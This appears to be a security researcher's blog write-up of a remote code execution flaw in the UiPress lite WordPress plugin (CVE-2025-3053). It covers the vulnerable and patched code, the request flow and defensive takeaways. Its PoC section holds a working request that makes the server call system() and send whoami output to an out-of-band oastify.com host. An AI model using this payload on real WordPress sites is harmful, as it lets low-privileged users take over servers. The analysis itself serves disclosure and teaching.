


# CVE-2025-3053 Analysis & POC


<!--more-->

## CVE & Basic Info

**UiPress lite** | a plugin for easily creating **custom dashboards**, **admin themes**, and **pages** for **WordPress** contains a **Remote Code Execution** vulnerability in all versions up to and including **3.5.07** via the **uip_process_form_input()** function. This is because the function takes **user-supplied input** to execute **arbitrary functions** with **arbitrary data** and **does not perform any capability checks**. This allows **authenticated attackers**, with **Subscriber-level** access or higher, to **execute arbitrary code** on the **server**.

* **CVE ID**: [CVE-2025-3053](https://www.cve.org/CVERecord?id=CVE-2025-3053)
* **Vulnerability Type**: Remote Code Execution
* **Affected Versions**: <= 3.5.07
* **Patched Versions**: 3.5.08
* **CVSS severity**: High (8.8)
* **Required Privilege**: Subscriber
* **Product**: [WordPress UiPress lite Plugin](https://wordpress.org/plugins/uipress-lite/)

## Requirements

* **Local WordPress & Debugging**

  * [Virtual Machine](https://w41bu1.github.io/posts/2025-08-21-wordpress-local-and-debugging/)
  * [Docker](https://w41bu1.github.io/posts/2025-10-22-wordpress-local-and-debugging-docker/)
* **Plugin Version – UiPress lite**:

  * `3.5.07` – **vulnerable**
  * `3.5.08` – **patched**
* **Diff Tool (diff)** → [**Meld**](https://meldmerge.org/) or any diff tool.

## Cause

**In the vulnerable version (v3.5.07):**

```php {title="ajax-functions.php v3.5.07" data-open=true hl_lines=[6,9,17]}
public function uip_process_form_input()
{
    // Check security nonce and 'DOING_AJAX' global
    Ajax::check_referer();

    $data = json_decode(stripslashes($_POST["formData"]));
    $data = Sanitize::clean_input_with_code($data);

    $userFunction = sanitize_text_field($_POST["userFunction"]);

    if (!function_exists($userFunction)) {
        Ajax::error(__('Passed function doesn\'t exist', "uipress-lite"));
    }

    // Try to start user supplied function
    try {
        $userFunction($data);
    } catch (Exception $e) {
        // Catch function error
        Ajax::error($e->getMessage());
    }

    $returndata = [];
    $returndata["success"] = true;
    wp_send_json($returndata);
}
```

The `uip_process_form_input()` function is triggered via AJAX and relies only on `Ajax::check_referer()` to verify the nonce and confirm the request is running in the `DOING_AJAX` context. This mechanism **does not check the user’s capability** with functions like `current_user_can()`, but only validates the request. As a result, any authenticated user (Subscriber and above) can specify any valid PHP function → leading to **Remote Code Execution (RCE)**.

```php {title="Ajax.php v3.5.07" data-open=true hl_lines=[4]}
public static function check_referer()
{
    $doingAjax = defined("DOING_AJAX") && DOING_AJAX ? true : false;
    $referer = check_ajax_referer("uip-security-nonce", "security") > 0 ? true : false;
    $result = $doingAjax && $referer ? true : false;

    // Abort if not doing ajax or bad referer
    if (!$result) {
        $message = __("Unable to perform action", "uipress-lite");
        self::error($message);
    }
}
```

Data from `$_POST["formData"]` is processed with `stripslashes()` and then passed into `json_decode()`, so `$data` is usually a **`stdClass`** (or the corresponding data type based on the JSON content). This value is then passed through `Sanitize::clean_input_with_code()`, which may filter data, but **does not control function execution**.

> [!TIP]
> If `$_POST["formData"]` is sent as a plain string instead of JSON ("{}"), `json_decode()` will return a string instead of a **`stdClass`**. This allows full control over `$data`.

Next, the function name is taken from `$_POST["userFunction"]` and only checked using `function_exists()`. This means **any valid PHP function existing in the WordPress/PHP environment can be called**, as long as the attacker knows or guesses its name.

Finally, the line `$userFunction($data);` performs a **dynamic function call** with user-controlled data. Allowing users to directly control the function name without a whitelist or permission checks creates a **Remote Code Execution (RCE)** vulnerability, or at minimum an **Arbitrary Function Call**, enabling authenticated attackers (e.g., Subscribers) to invoke dangerous functions such as `system()`, `exec()`, `shell_exec()`, `eval()`, etc., resulting in command execution or system manipulation.

**Patch (v3.5.08):**

```php {title="ajax-functions.php v3.5.08" data-open=true hl_lines=[4,6]}
public function uip_process_form_input()
{
    // Check security nonce and 'DOING_AJAX' global
    Ajax::check_referer();

    Ajax::error(__("Passing form data to user specified functions has been disabled to prevent potential security issues.", "uipress-lite"));
}
```

The patch effectively fixes the issue by removing the original logic entirely :)).


## Analysis

```php {title="ajax-functions.php v3.5.07" data-open=true hl_lines=[13]}
public function load_ajax()
{
    $function_names = [
        "uip_get_users_and_roles",
        "uip_get_post_types",
        "uip_get_recent_posts",
        "uip_get_posts_for_table",
        "uip_get_post_table_columns",
        "uip_delete_post",
        "uip_save_user_preference",
        "uip_get_user_preference",
        "uip_search_content",
        "uip_process_form_input",
        "uip_send_form_email",
        "uip_save_form_as_option",
        "uip_save_form_as_user_option",
        "uip_pre_populate_form_data",
        "uip_create_frame_switch",
        "uip_get_sync_options",
        "uip_refresh_sync_key",
        "uip_save_sync_options",
        "uip_start_site_sync",
        "uip_check_for_template_updates",
        "uip_process_block_query",
        "uip_save_site_option",
        "uip_send_message_to_gpt",
        "uip_global_export",
        "uip_global_import",
        "uip_push_new_custom_menu_items",
        "uip_remove_custom_menu_items",
    ];

    // Push ajax actions
    foreach ($function_names as $name) {
        add_action("wp_ajax_{$name}", [$this, $name]);
    }
}
```

The plugin registers multiple AJAX actions via the `load_ajax()` function. Each name in the `$function_names` array is hooked using `add_action("wp_ajax_{$name}", [$this, $name])`. This means that when a request is sent to `/wp-admin/admin-ajax.php` with `action = $name`, WordPress will directly invoke the method with the same name in the plugin’s class.

Since `uip_process_form_input` is in the list, a request such as:

```
POST /wp-admin/admin-ajax.php
action=uip_process_form_input&security=...&formData=...&userFunction=...
```

will trigger `uip_process_form_input()`.

## Flow


graph TD
A["POST /wp-admin/admin-ajax.php...action=uip_process_form_input"] --> B["WordPress calls uip_process_form_input()"]
B --> C["Ajax::check_referer()"]
C --> D["$data = json_decode(formData)"]
D --> E["$userFunction = sanitize_text_field(userFunction)"]
E --> F{"function_exists($userFunction)?"}
F -->|Yes| G["$userFunction($data)"]
F -->|No| H["Ajax::error()"]
G --> I["wp_send_json(success)"]


## Proof of Concept (PoC)

1. Log in as a **Subscriber** user
2. Obtain the security value from the response



3. Send a request containing the payload:

```http
POST /wp-admin/admin-ajax.php HTTP/1.1
Host: localhost
...
action=uip_process_form_input&security=65c1a4e801&formData="curl+http://1aclwhon6rw1l1bj569pxpkjqaw1ks8h.oastify.com?leadked=$(whoami)"&userFunction=system
```



## Conclusion

The **CVE-2025-3053** vulnerability stems from `uip_process_form_input()` allowing users to directly control the **function name to be executed** via `userFunction`, while only checking `function_exists()` and **not performing any capability checks or using a whitelist**. This allows low-privileged authenticated users (Subscriber) to perform **Arbitrary Function Calls**, leading to **Remote Code Execution (RCE)**. Version **3.5.08** mitigates the issue by completely disabling this mechanism.

## Key Takeaways

* Do not allow users to control **dynamic function calls** without a strict whitelist.
* `nonce` / `check_ajax_referer()` **do not replace** `current_user_can()`.
* `function_exists()` **is not a security control**.
* Logic flaws are more dangerous than improper sanitization.
* Always apply the **principle of least privilege** to AJAX endpoints.

## References

[Remote Code Execution (RCE)](https://patchstack.com/academy/wordpress/vulnerabilities/remote-code-execution/)

[WordPress UiPress lite Plugin <= 3.5.07 is vulnerable to PHP Object Injection](https://patchstack.com/database/wordpress/plugin/uipress-lite/vulnerability/wordpress-uipress-lite-plugin-3-5-07-authenticated-subscriber-remote-code-execution-vulnerability)


---

> Author: [Bui Van Y](github.com/w41bu1)  
> URL: http://localhost:1313/posts/2025-12-01-cve-2025-3053/  

